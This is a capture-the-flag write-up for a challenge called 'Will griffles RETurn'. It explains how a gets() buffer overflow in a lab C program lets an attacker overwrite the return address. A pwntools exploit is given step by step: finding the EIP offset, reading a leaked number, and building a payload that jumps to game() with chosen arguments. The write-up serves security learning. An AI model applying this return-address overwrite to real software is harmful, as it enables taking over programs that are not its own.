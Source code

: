 # Will griffles RETurn

Griffles wants to play a game, but as soon as he gets to know you, he has to go back home to grind his tutorials! Can figure out how to get griffles to return and play the game?

---

## Will griffles RETurn - Writeup

### Challenge Overview

In this challenge, you are tasked with exploiting a vulnerable C program called `vuln.c`. The goal is to use a buffer overflow vulnerability to control the execution flow of the program, ultimately triggering the `game()` function and revealing the flag.

### Vulnerabilities

The program contains two critical vulnerabilities:
1. **Buffer Overflow in `register_name()`**: The function uses `gets()` to read user input into a fixed-size buffer, which is vulnerable to overflow. This allows us to overwrite adjacent memory, including the return address of the function.
2. **Stack-based Buffer Overflow**: Once we control the return address, we can redirect execution to the `game()` function and provide the necessary arguments to retrieve the flag.

### Exploit Plan

1. **Overflow the buffer in `register_name()`**: By sending more than 10 characters, we will overflow the buffer and overwrite the return address, redirecting control to a function of our choice.
2. **Redirect to `game()`**: The `game()` function checks whether the sum of two arguments matches a randomly chosen value. We can use the value printed by the program to correctly craft our arguments and retrieve the flag.

---

### Exploit Walkthrough

1. **Setup Environment**

   To get started, we use `pwntools` to set up the environment and allow for debugging and remote exploitation:

   ```python
   from pwn import *

   def start(argv=[], *a, **kw):
       if args.GDB:
           return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
       elif args.REMOTE:
           return remote(sys.argv[1], sys.argv[2], *a, **kw)
       else:
           return process([exe] + argv, *a, **kw)

   gdbscript = '''
   init-pwndbg
   continue
   '''

   exe = './vuln'
   elf = context.binary = ELF(exe, checksec=False)
   context.log_level = 'debug'
   ```

   - `start()` helps with running the exploit locally or remotely, and optionally with GDB debugging.
   - `context.binary` and `context.log_level` configure the environment for binary exploitation.

2. **Finding the Buffer Overflow Offset**

   Before exploiting the vulnerability, we need to determine the offset where the return address is overwritten. To do this, we send a cyclic pattern to the program:

   ```python
   payload = b""
   payload += cyclic(100)
   io.sendline(payload)

   io.wait()
   core = io.corefile
   eip_value = core.eip
   eip_offset = cyclic_find(eip_value)
   info('located EIP offset at {a}'.format(a=eip_offset))
   ```

   - The `cyclic()` function generates a unique pattern that we use to identify the offset in the stack where the return address (EIP) is located.
   - After sending the payload, we examine the core dump to determine the location of the return address.

3. **Leaking the Random Number**

   The program generates a random number, which is displayed in the output. We can extract this number to use it as an argument for the `game()` function:

   ```python
   io.recvuntil(b"number: ")
   leak = io.recvline()
   answer = int(leak.decode().strip())
   log.info(f"answer: {answer}")
   ```

   - We capture the random number (`answer`) printed by the program, which is needed to construct a valid payload for the `game()` function.

4. **Constructing the Final Payload**

   Now that we know the `answer`, we can craft a payload to exploit the buffer overflow and redirect execution to the `game()` function. The payload will overwrite the return address and pass the correct arguments to `game()`:

   ```python
   payload = b""
   payload += b"A" * eip_offset          # padding up to EIP
   payload += p32(elf.functions['game'].address)  # overwrite EIP to jump to game()
   payload += p32(0x0)                   # fake return address (not important here)
   payload += p32(answer)                # argument a
   payload += p32(0x0)                   # argument b

   io.sendline(payload)
   ```

   - The payload starts by filling the buffer up to the point where the return address is located (`b"A" * eip_offset`).
   - We then overwrite the return address with the address of the `game()` function (`elf.functions['game'].address`).
   - Finally, we pass the correct arguments (`answer` and `0x0`) to `game()`.

5. **Interacting with the Program**

   Once the payload is sent, the program will execute the `game()` function, and we can interact with the program to retrieve the flag:

   ```python
   io.interactive()
   ```

   - This command allows us to interact with the program once the exploit is successful. The flag should be revealed in the output.

---
